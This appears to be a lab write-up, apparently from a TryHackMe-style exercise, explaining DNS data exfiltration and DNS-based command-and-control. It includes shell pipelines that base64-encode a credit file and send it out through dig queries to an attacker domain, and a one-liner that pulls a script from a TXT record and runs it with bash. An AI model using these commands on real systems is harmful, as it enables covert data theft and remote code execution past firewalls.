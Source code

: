 # Exfiltration Over DNS

The DNS protocol is a common protocol primarily used to resolve domain names to IP addresses and vice versa. Although not designed for data transfer, threat actors have found ways to abuse it for data exfiltration. This document explains the technique of exfiltrating data over the DNS protocol.

---

## What is DNS Data Exfiltration?

DNS is not a transport protocol, and many organizations don't regularly monitor it. Since DNS traffic is allowed in most firewalls, threat actors use it to hide their communications.

### DNS Protocol Limitations

- The maximum length of a Fully Qualified Domain Name (FQDN) is 255 characters (including separators).
- A subdomain name (label) cannot exceed 63 characters.

Due to these limitations, transferring large files (e.g., 10 MB) may require over 50,000 DNS requests, creating noisy traffic that is easier to detect.

---

## Data Exfiltration - Data Flow

1. **Domain Registration**: The attacker registers a domain (e.g., `tunnel.com`).
2. **NS Record Setup**: The attacker sets up the domain's NS record to point to their controlled server.
3. **Data Transfer**: Malware or the attacker sends sensitive data as part of a domain name (e.g., `passw0rd.tunnel.com`).
4. **DNS Request**: The DNS request is forwarded through the local DNS server to the attacker's authoritative DNS server.
5. **Data Extraction**: The attacker extracts the data from the domain name.

---

## When to Use DNS Data Exfiltration?

DNS exfiltration is useful when firewalls block all other traffic but allow DNS. It enables data transfer through firewalls as long as DNS resolution is permitted.

---

## Performing DNS Data Exfiltration

### Requirements

- A domain name controlled by the attacker (e.g., `tunnel.com`).
- A victim machine with sensitive data to exfiltrate.
- An attacker machine to receive and process DNS requests.

### Steps

#### 1. Prepare the Attacker Machine

- Connect to the attacker machine via SSH:
    ```bash
    ssh thm@attacker.thm.com
    ```
- Capture incoming DNS requests using `tcpdump`:
    ```bash
    sudo tcpdump -i eth0 udp port 53 -v
    ```

#### 2. Connect to the Victim Machine

- Access the victim machine via SSH:
    ```bash
    ssh thm@victim2.thm.com
    ```

#### 3. Encode the Data

- Encode the content of `credit.txt` using Base64:
    ```bash
    cat task9/credit.txt | base64
    ```

#### 4. Split and Send Data

- Split the Base64 data into multiple DNS requests:
    ```bash
    cat task9/credit.txt | base64 | tr -d "\n" | fold -w18 | sed -r 's/.*/&.att.tunnel.com/'
    ```
- Alternatively, send the data in a single DNS request:
    ```bash
    cat task9/credit.txt | base64 | tr -d "\n" | fold -w18 | sed 's/.*/&./' | tr -d "\n" | sed s/$/att.tunnel.com/
    ```
- Use the `dig` command to send the DNS requests:
    ```bash
    cat task9/credit.txt | base64 | tr -d "\n" | fold -w18 | sed 's/.*/&./' | tr -d "\n" | sed s/$/att.tunnel.com/ | awk '{print "dig +short " $1}' | bash
    ```

#### 5. Receive and Decode Data

- On the attacker machine, stop `tcpdump` and clean the received data:
    ```bash
    echo "TmFtZTogVEhNLXVzZX..." | cut -d"." -f1-8 | tr -d "." | base64 -d
    ```

---

## C2 Communications Over DNS

Command-and-Control (C2) frameworks use DNS for communication, such as sending commands and receiving results. They may also use TXT DNS records to deliver scripts or additional payloads.

### Example: Executing a Bash Script via DNS

1. **Encode the Script**:
     ```bash
     cat /tmp/script.sh | base64
     ```
2. **Add a TXT Record**: Add the Base64-encoded script to a TXT DNS record (e.g., `script.tunnel.com`).
3. **Resolve the TXT Record**:
     ```bash
     dig +short -t TXT script.tunnel.com
     ```
4. **Execute the Script**:
     ```bash
     dig +short -t TXT script.tunnel.com | tr -d "\"" | base64 -d | bash
     ```

---

By following these steps, you can simulate DNS-based data exfiltration and C2 communications.